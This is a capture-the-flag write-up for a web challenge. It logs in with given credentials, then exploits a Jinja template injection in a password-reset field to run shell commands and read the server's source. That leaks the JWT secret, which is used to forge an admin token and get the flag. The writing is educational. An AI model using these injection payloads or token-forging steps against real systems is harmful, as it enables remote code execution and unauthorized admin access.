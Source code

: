 # WX01
> 1,000pts

## Briefing
> Access the url at: https://cfta-wx01.allyourbases.co and find a way to login to the admin portal to get the flag.

> Note: You have been provided with the following credentials to help you:

> username: `tim`

> password: `berners-lee`

## Solution
View the web requests to see that authorisation is done using a JWT token

### Getting Started
A `POST` request to `https://6feducn4d2.execute-api.eu-west-1.amazonaws.com/stag/wx01` with the following body is sent:
```json
{
    "action": "login",
    "username": "tim",
    "password": "berners-lee"
}
```

This returns a JWT token that contains the user and role
```json
{
    "statusCode": 200,
    "body": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InRpbSIsInJvbGUiOiJ1c2VyIn0.j8wX114OSLEo2I4S6GQ4wQ4ZszXtyp0wFc0lpwc1yRQ"
}
```
... which is signed using `HS256` to
```json
{
    "username": "tim",
    "role": "user"
}
```

We need to change the `role` to `admin`, but we'll need the JWT secret key to resign the payload.

### Obtaining the Secret Key
Notice that the password reset form makes a `POST` request to `https://6feducn4d2.execute-api.eu-west-1.amazonaws.com/stag/wx01` with the body:
```json
{
    "action": "help",
    "email": "test@example.com"
}
```
```json
{
    "statusCode": 200,
    "body": "\n    <p>Your request has been submitted.</p>\n    <p>You will receive an email at: test@example.com</p>\n    <p>This might take a reaaaaaaally long time though (forever).</p>\n    "
}
```

After messing with the `email` field, discover that it is vulnerable to using a Jinja templating string.

We can pop a shell using the body:
```json
{
    "action": "help",
    "email": "{{globals().__builtins__.__import__('os').popen('[ commmand ]').read()}}"
}
```

...which then means we can get the source by sending
```json
{
    "action": "help",
    "email": "{{globals().__builtins__.__import__('os').popen('cat lambda_function.py').read()}}"
}
```
```json
{
    "statusCode": 200,
    "body": "\n    <p>Your request has been submitted.</p>\n    <p>You will receive an email at: from jinja2 import Template\nimport json\nimport urllib\nimport jwt\nimport os\n\n# JWT Key\nkey = \"aversion-chute-freeway-corporal\"\nalgo = \"HS256\"\n\ndef getHelp(event):\n    email = ''.join(event['email'])\n    template = \"\"\"\n    <p>Your request has been submitted.</p>\n    <p>You will receive an email at: %s</p>\n    <p>This might take a reaaaaaaally long time though (forever).</p>\n    \"\"\" % (urllib.parse.unquote(email).replace(\"<\", \"&lt;\").replace(\">\", \"&gt;\"))\n    msg = Template(template).render(dir=dir, help=help, locals=locals, globals=globals, open=open)\n    msg = msg[:-len(msg)+700]\n    return msg\n\ndef login(event)"
}
```

This gives us the JWT key, `aversion-chute-freeway-corporal`

### Logging In
[CyberChef](https://gchq.github.io/CyberChef/#recipe=JWT_Sign('aversion-chute-freeway-corporal','HS256')&input=ewogICAgInVzZXJuYW1lIjogInRpbSIsCiAgICAicm9sZSI6ICJhZG1pbiIKfQ) can be used to sign the following payload with the `HS256` algorithm and secret key `aversion-chute-freeway-corporal`:
```json
{
    "username": "tim",
    "role": "admin"
}
```
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InRpbSIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTYxNzc5NzI0OX0.rRYKHKlanDexPgprltGyAvfjVoSyqSpLUIkR13_qcT4
```

This token just needs to be sent as a `verify` action obtain the flag:
```json
{
    "action": "verify",
    "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InRpbSIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTYxNzc5NjcwNH0.AIRho1XtNkBU0iKhlWuPgEaaHf3IWmokEv4mNhnuAfE"
}
```
```json
{
    "statusCode": 200,
    "body": "muLtiStagingIT710-12"
}
```

## Flag
Flag: `muLtiStagingIT710-12`
